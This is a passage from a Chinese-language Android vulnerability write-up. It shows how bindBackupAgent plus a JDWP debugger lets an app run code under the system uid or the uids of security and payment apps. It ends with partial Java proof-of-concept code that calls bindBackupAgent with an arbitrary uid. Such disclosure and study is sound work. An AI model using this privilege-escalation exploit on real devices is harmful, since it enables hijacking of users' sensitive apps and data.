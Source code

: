 这里会有两种情况：

*   进程以system的uid启动，但由于没有实例化和调用onCreate，这个进程是个空壳。这是最常见的情况。
    
*   进程以system的uid启动，出现一个Application Crash时的FC对话框。有意思的是某些罕见情况下直接访问backupAgent接口就会触发该对话框。
    

对于这两种情况，attach上之后触发的断点也并不一样。对于第一个来说，线程会block在nativePollOnce上，如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/366ed1cb0d093ead30b2679ec1e65d460af56095.jpg)

这种情况利用的一个关键因素是需要让线程跳出nativePollOnce，也就是说需要让其接收到一个消息，然后才能下断点执行代码, 但诡异之处就在于这时候起的进程是一个空壳，不存在GUI界面，常规的操作触发和intent触发都是没有效果的，这岂不是强人所难？这里就需要一个任何ActivityThread都会接收到的非GUI事件非组件的事件消息并触发它，才能跳出这个轮回。通过某种猥琐的方式，是可以做到这点的，读者可以思考下哪些可以达到这个目的。

第二种则会因为异常捕获断在handleApplicationCrash上，这种比较好处理，直接下断点即可。

总之我们利用intellij或者jdb作为载体，通过jdwp即可以system权限或者以其他uid的身份执行代码。

附效果截图：

system:

![enter image description here](http://drops.javaweb.org/uploads/images/8dcc812c40510f1bf23edef78daca7b628cb9043.jpg)

当然我们也可以变幻成什么xx卫士啊，xx钱盾，xx付宝之类进程的uid，从而控制这些敏感应用。附xx卫士的截图:

![enter image description here](http://drops.javaweb.org/uploads/images/7b028aee0b6b94a36ab7fdb5f58a920c5fcae6e6.jpg)

可以看到我们的应用已经和xx卫士是一个uid同床共枕了，接下来怎么发挥就看诸君想象力了。

0x04 部分POC:
=====

#### myapp:

```
public class Test {

    public static void main(String []args)
    {
        test(Integer.parseInt(args[0]));
    }

    public static void test(Integer uid)
    {
        try {
            Class ActivityManagerNative = Class.forName("android.app.ActivityManagerNative");
            Method bindBackupAgent = ActivityManagerNative.getDeclaredMethod("getDefault");

            Object iActivityManager = bindBackupAgent.invoke(null);

            Method bindBackupAgentMtd = iActivityManager.getClass().getDeclaredMethod("bindBackupAgent", ApplicationInfo.class, int.class);

            ApplicationInfo applicationInfo = new ApplicationInfo();
            applicationInfo.dataDir = "/data/data/com.example.myapp";
            applicationInfo.nativeLibraryDir = "/data/app-lib/com.example.myapp-1";
            applicationInfo.processName = "com.example.myapp";
            applicationInfo.publicSourceDir = "/data/app/com.example.myapp-1.apk";
            applicationInfo.sourceDir = "/data/app/com.example.myapp-1.apk";
            applicationInfo.taskAffinity = "com.example.myapp";
            applicationInfo.packageName = "com.example.myapp";
            applicationInfo.flags = 8961606;
            applicationInfo.uid = uid;
            bindBackupAgentMtd.invoke(iActivityManager, applicationInfo, 0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
```
